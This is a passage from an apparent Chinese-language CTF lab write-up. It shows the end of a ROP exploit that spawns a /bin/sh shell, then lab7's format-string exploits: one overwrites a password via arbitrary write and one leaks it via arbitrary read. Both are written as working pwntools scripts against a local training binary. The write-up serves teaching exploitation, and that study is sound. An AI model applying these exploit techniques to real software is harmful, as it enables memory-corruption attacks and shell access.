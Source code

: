 ```python

pay = p32(buf)
pay += p32(bin.plt['read']) + p32(p3ret) + p32(0) + p32(buf) + p32(0x100)
pay += p32(system) + 'bbbb' + p32(buf)

cn.send(pay)

cn.send('/bin/sh\0')
cn.interactive()

```



## lab7

考察利用格式化字符串漏洞得到任意地址写或任意地址读。

任意地址写：通过printf把password改成其他已知值，然后发送已知的password即拿flag。

exp：
```python
from pwn import *
context.log_level = 'debug'

cn = process('./crack')

p_pwd = 0x0804A048
fmt_len = 10

cn.recv()

pay = fmtstr_payload(fmt_len,{p_pwd:1})
cn.sendline(pay)

cn.recv()
cn.sendline('1')
cn.recv()
cn.recv()
```

任意地址读：直接读出password的值，然后发送。

exp:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import struct
context.log_level = 'debug'
r = process('./crack')

password_addr = 0x804a048
r.recvuntil("?")


r.sendline(p32(password_addr) + "#" + "%10$s" + "#" )
r.recvuntil("#")
p = r.recvuntil("#")
password = struct.unpack('i',p[:4])[0]
r.recvuntil(":")
r.sendline(str(password))
r.recv()
r.recv()
```
